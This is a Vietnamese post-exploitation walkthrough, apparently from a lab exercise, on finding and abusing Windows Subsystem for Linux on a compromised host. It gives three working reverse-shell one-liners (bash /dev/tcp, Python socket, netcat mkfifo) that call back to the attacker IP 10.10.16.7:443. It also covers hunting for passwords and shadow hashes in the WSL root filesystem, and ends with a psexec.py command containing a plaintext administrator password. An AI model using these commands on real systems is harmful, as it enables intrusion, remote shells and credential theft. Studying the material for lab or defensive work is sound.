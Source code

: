 # WSL là gì??

"WSL" là viết tắt của "Windows Subsystem for Linux," tức là Hệ thống con Windows cho Linux. Đây là một tính năng của hệ điều hành Windows, cụ thể là từ Windows 10 trở lên, cho phép người dùng chạy một hệ điều hành Linux trực tiếp trên Windows mà không cần cài đặt máy ảo hay khởi động lại hệ thống.

WSL cung cấp một môi trường thực thi Linux trên Windows, giúp người dùng có thể sử dụng các lệnh và ứng dụng Linux mà không cần cài đặt một hệ điều hành Linux riêng biệt. Điều này làm cho việc phát triển và chạy các ứng dụng có thể tương thích với cả hai hệ điều hành trở nên thuận tiện hơn.

Khi kích hoạt WSL, người dùng có thể chọn và cài đặt một bản phân phối Linux từ Windows Store (ví dụ như Ubuntu, Fedora, Debian). Sau đó, họ có thể mở một cửa sổ dòng lệnh Linux và thực hiện các tác vụ Linux mà không cần rời khỏi môi trường Windows.

# Liệt kê WSL trên máy Windows mục tiêu

Sau khi tìm ra cách khai thác web và vượt qua AV, tôi đã thu được một lớp vỏ đảo ngược với tư cách là người dùng Tyler.

## Phương pháp đếm thủ công

Khi nói đến việc liệt kê WSL trên hệ thống đích, tôi muốn bắt đầu bằng cách tìm thư mục Distros mặc định có tại C:\Distros .

Trong C:\ tôi thực sự thấy hai gợi ý rằng WSL đã được cài đặt trên hệ thống này. Đầu tiên, chúng ta có thể thấy thư mục Distros mặc định, nhưng chúng ta cũng có thể thấy tệp ZIP cho ubuntu.
Bên trong thư mục Distros, tôi đang tìm kiếm tệp EXE cho một bản phân phối đã cài đặt, ví dụ: ubuntu.exe .

Nếu thư mục Distros mặc định không có trên hệ thống, chẳng hạn như nếu thư mục tùy chỉnh được sử dụng thay thế, thì chúng ta vẫn có thể liệt kê xem WSL có trên hệ thống hay không bằng cách kiểm tra hai tệp nhị phân: bash.exe và wsl.exe .

```
cmd.exe /c "cd C:\windows\system32 & dir /S /B bash.exe == wsl.exe"
```

Ở đây chúng ta thấy cả hai tập tin đều được tìm thấy trên hệ thống. Theo mặc định, wsl.exe sẽ có trên hầu hết các hệ điều hành Windows hiện đại, nhưng bash.exe thường chỉ được tìm thấy khi cài đặt WSL.
Để tìm xem wsl có “trực tuyến” hay không và thu thập danh sách các bản phân phối đang chạy, hãy sử dụng lệnh sau cho windows 10 1903 trở lên:

```
wsl --list --running
```

Ngoài ra, đối với các phiên bản Windows cũ hơn 1903, chúng ta có thể sử dụng lệnh sau để thay thế:

```
wslconfig /list
```

Kết quả đầu ra cho thấy có một bản phân phối đã đăng ký được cài đặt: Ubuntu – 18.04
Ngoài ra, tôi có thể tìm thấy thông tin này bằng winPEAS .

## Đếm tự động với winPEAS

winPEAS chạy quét liệt kê toàn bộ hệ thống. Hai công cụ bổ sung có thể được sử dụng để quét toàn bộ bảng liệt kê bao gồm: Seatbelt.exe và Jaws-enum.ps1
winPEAS là công cụ liệt kê tối ưu và cung cấp lượng thông tin LỚN. Nhiều đến mức có thể choáng ngợp; tuy nhiên, điều quan trọng là biết nơi để tìm thông tin nhất định.

Nói chung khi chạy winPEAS, chúng ta sẽ chạy nó không có tham số để chạy 'tất cả các kiểm tra' và sau đó xem xét tất cả các dòng đầu ra theo từng dòng, từ trên xuống dưới.

Tuy nhiên, trong trường hợp này, chúng ta không cần lo lắng về phần và phần phụ để tìm thông tin WSL vì nó sẽ nằm trong lần kiểm tra cuối cùng thứ hai: Interesting file and registry và luôn ở dưới cùng nếu nó tồn tại.

Ở đây, chúng ta có thể thấy rằng PEAS đã tìm thấy WSL bằng cách kiểm tra bash.exe và wsl.exe (giống như chúng ta đã làm thủ công) và sau đó nó cũng tìm thấy thư mục gốc cho phiên bản WSL (điều này thực sự thú vị và chúng ta sẽ biết lý do tại sao sau). Cuối cùng, nó cung cấp lệnh để tôi chạy để thu thập thêm thông tin về bản phân phối.

Cuối cùng, có một điều thú vị mà chúng ta có thể làm với winPEAS, đó là thêm khóa chuyển -linpeas.sh=[URL] vào lệnh. Nếu tôi đặt URL tới máy tấn công của mình và cung cấp linpeas.sh, tôi có thể lấy nó và chạy trực tiếp trong phiên bản WSL. Điều này có thể hữu ích cho việc liệt kê các tệp thú vị hoặc để thử và bảo mật trong phiên bản nếu chúng ta chưa root.

Bây giờ chúng ta đã xác nhận rằng WSL đang chạy trên hệ thống, chúng ta có thể tương tác với nó bằng cách thực thi các lệnh Linux.

# Tương tác với WSL

Lệnh đầu tiên chúng ta muốn chạy là whoami để chúng ta có thể xem liệu chúng ta có đang chạy bằng root hay không. Có hai cách để chạy lệnh, sử dụng wsl.exe hoặc bash.exe .

```
wsl.exe "whoami"

bash.exe -c "whoami"
```

Ở đây chúng ta có thể thấy rằng cả hai lệnh đều thực hiện cùng một công việc và chúng ta đã root bên trong bản phân phối Linux!
Nếu tôi nhận thấy rằng tôi không chạy bằng root, tôi có hai lựa chọn.
Đầu tiên, chúng ta có thể thử đặt người dùng mặc định thành root, việc này có thể được thực hiện bằng cách sử dụng lệnh sau:

```
C:\Distros\ubuntu.exe config --default-user root
```

Ở đây tôi sử dụng ubuntu.exe vì đó là tên của tệp thực thi distro mà tôi tìm thấy trong thư mục Distros. Điều này có thể thay đổi vì Ubuntu không phải là bản phân phối duy nhất có sẵn cho WSL.

Thứ hai, nếu điều đó không hiệu quả, chúng ta có thể lấy một shell đảo ngược trong phiên bản WSL với tư cách là người dùng chuẩn và sau đó cố gắng nâng cấp nội bộ lên root.

Root bên trong WSL không có nghĩa là máy đã được “root”. tôi muốn có quyền root để có toàn quyền truy cập vào các tệp trong hệ thống nhằm tìm kiếm những phát hiện thú vị.

Lấy Reverse Shell bên trong phiên bản WSL

Sau khi phát hiện ra rằng WSL đang chạy trên hệ thống và tôi có quyền truy cập bằng root, giờ đây tôi có thể tiến hành lấy một shell đảo ngược bên trong phiên bản ubuntu mà tôi thấy đang chạy.

Ví dụ, chúng ta có thể có được một shell đảo ngược trong WSL theo một số cách:
Sử dụng 1-liner với bash.exe:

```
bash.exe -c "bash -i >& /dev/tcp/10.10.16.7/443 0>&1"
```

Sử dụng 1-liner với wsl.exe :

```
wsl python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Hoặc có thể chúng ta có thể sử dụng PowerShell + netcat:

```
if([System.IO.File]::Exists("C:\Windows\System32\bash.exe")){bash.exe -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.7 443 >/tmp/f"}
```

Việc sử dụng bất kỳ phương pháp nào ở trên sẽ dẫn đến một trình bao đảo ngược bên trong phiên bản WSL.

NOTE: Điều này không giống như việc root mục tiêu thực tế. tôi thực sự quan tâm nhất đến việc tìm kiếm mật khẩu khi tôi đã có được shell trong phiên bản WSL. Điều này là do tôi đã root và tôi sẽ không thể làm gì nhiều trong phiên bản này ngoài việc liệt kê những phát hiện thú vị.

# No Shell No problem – Phương pháp thay thế để truy cập hệ thống tập tin

Vì mọi thứ trong Linux đều là một tệp nên chúng ta thực sự có thể duyệt qua hệ thống tệp trực tiếp trên mục tiêu Windows.

Các tệp cho một bản phân phối Linux nhất định sẽ được đặt trong hồ sơ trang chủ của chủ sở hữu WSL ở vị trí tệp sau: %userprofile%\AppData\Local\Packages .
Sử dụng lệnh sau, chúng ta có thể bắt đầu tìm thư mục gốc của Distro:

```
ls C:\Users\tyler\AppData\Local\Packages | findstr /v "Microsoft\. Windows\."
```

Ở đây chúng ta có thể thấy một thư mục 'Ubuntu', vì vậy chúng ta có thể tiến hành kiểm tra xem có gì trong đó. tôi đang tìm kiếm một thư mục có tên LocalState - và tôi có thể thấy nó ở đây!

Và sau đó kiểm tra thư mục đó tiếp theo chúng ta tìm thấy rootfs , là thư mục gốc của hệ thống tập tin!

Cuối cùng, vào thư mục rootfs , chúng ta có thể thấy rõ đây là hệ thống tập tin Linux.

# Liệt kê một phiên bản WSL cho các kết quả JUICY

Bây giờ tôi đã có toàn quyền truy cập vào hệ thống tệp Linux dưới dạng root, từ shell đảo ngược hoặc từ việc tìm thư mục trên máy chủ đích

Về cơ bản, điều tôi muốn làm là tìm kiếm mật khẩu – ít nhiều. Vì tôi đã root trong hệ thống Linux nên tôi có toàn quyền truy cập vào mọi tệp, bao gồm cả những vị trí phổ biến để tìm mật khẩu / hàm băm chẳng hạn như tệp shadow ; trong các tệp khác (webroot, tệp người dùng, v.v.); lịch sử bash; và nhiều hơn nữa!

Sau một số liệt kê thủ công (hoặc sử dụng linpeas.sh trong quá trình quét winpeas), chúng ta sẽ có thể tìm thấy một số tệp đáng để khám phá thêm. Ví dụ: giả sử tôi tìm thấy tệp .bash_history trong thư mục /root có một số byte trong đó, điều đó có nghĩa là nó chưa bị xóa.

Ta đã nhận được thông tin đăng nhập của quản trị viên cục bộ cho máy chủ Windows!

# Sử dụng những phát hiện để có được Shell HỆ THỐNG

Bây giờ chúng ta đã tìm thấy thông tin xác thực của quản trị viên cục bộ, chúng ta có thể có được shell theo một số cách trên máy chủ. Tuy nhiên, vì người ta nhận thấy rằng smbclient đã được sử dụng trong lịch sử bash, nên chúng ta hãy tiếp tục sử dụng dịch vụ đó (SMB) và lấy SYSTEM shell bằng cách sử dụng psexec.py từ Bộ công cụ Impacket .

```
psexec.py administrator:'u6!4ZwgwOM#^OBf#Nwnh'@10.10.10.97
```
